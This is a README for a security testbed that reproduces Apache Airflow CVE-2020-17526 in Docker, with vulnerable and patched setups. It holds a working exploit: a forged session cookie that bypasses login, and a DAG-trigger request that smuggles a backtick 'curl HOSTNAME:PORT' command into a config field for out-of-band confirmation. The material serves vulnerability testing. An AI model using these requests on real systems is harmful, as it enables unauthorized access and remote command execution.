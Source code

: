 # requirements setup
spin up an `Ubuntu 22.04` fresh instance and log in as root.
```bash
apt update
apt install dos2unix
wget -q -O - "https://get.docker.com/" | dos2unix | bash
# clone the repo
# cd security-testbeds/apache/airflow/CVE-2020-17526
```
# setup Vulnerable instance
## Initialize the database
```bash
docker compose -f docker-compose-vulnerable.yml run airflow-init
```
## Start service
```bash
docker compose -f docker-compose-vulnerable.yml up -d
```
## test the exploit
### simple test
```bash
curl 'http://127.0.0.1:8080/admin/' -H 'Cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.ZgdmZA.GDwzAupY1c9AXYDbLRvjSiZCVw0'
```
in a successfull exploitation, you should not be redirected to login page. on the other hand, you should receive the list of DAGs.
### test with OOB
```bash
# first grab a CSRF token and the new session cookie
curl 'http://127.0.0.1:8080/admin/'  -v -H 'Cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.ZgdmZA.GDwzAupY1c9AXYDbLRvjSiZCVw0'  | grep 'var CSRF = "'

# update session cookie and X-CSRFToken values from previous request
# enable the vulnerable DAG
curl 'http://127.0.0.1:8080/admin/airflow/paused?is_paused=true&dag_id=example_trigger_target_dag'  -X 'POST'  -H 'Cookie: session=REPLACE_HERE'  -H 'Referer: http://127.0.0.1:8080/admin/airflow/tree?dag_id=example_trigger_target_dag'  -H 'X-CSRFToken: REPLACE_HERE'

# update session cookie and X-CSRFToken values from previous request
# send the payload to vulnerable DAG, replace HOSTNAME and PORT to yours.
curl 'http://127.0.0.1:8080/admin/airflow/trigger?dag_id=example_trigger_target_dag&origin=%2Fadmin%2Fairflow%2Ftree%3Fdag_id%3Dexample_trigger_target_dag'  -X POST -H 'Cookie: session=REPLACE_HERE' --data-raw 'csrf_token=REPLACE_HERE&dag_id=example_trigger_target_dag&origin=%2Fadmin%2Fairflow%2Ftree%3Fdag_id%3Dexample_trigger_target_dag&conf=%7B%22message%22%3A%22%60curl+HOSTNAME%3APORT%60%22%7D'
```
# setup secure instance
## Initialize the database
```bash
docker compose -f docker-compose-secure.yml run airflow-init
```
## Start service
```bash
docker compose -f docker-compose-secure.yml up -d
```

Ref:
https://github.com/vulhub/vulhub/tree/master/airflow/CVE-2020-17526
